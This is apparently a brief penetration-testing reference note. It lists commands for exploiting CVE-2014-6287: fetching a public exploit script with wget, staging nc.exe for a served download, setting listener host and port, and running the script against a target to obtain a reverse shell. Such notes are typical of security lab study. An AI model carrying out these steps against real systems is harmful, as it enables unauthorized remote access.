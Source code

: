 ```yaml
---
category: Uncategorized
tags: []
---
```

```
wget https://gist.githubusercontent.com/AfroThundr3007730/834858b381634de8417f301620a2ccf9/raw/783473905951169e49afaf5958e89b23f5a8743f/cve-2014-6287.py
```

```
mkdir bin && cp /usr/share/windows-resources/binaries/nc.exe ./bin
```

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

Update lhost and lport variables.

[[rlwrap]]

```
python cve-2014-6287.py $TARGET 9505
```







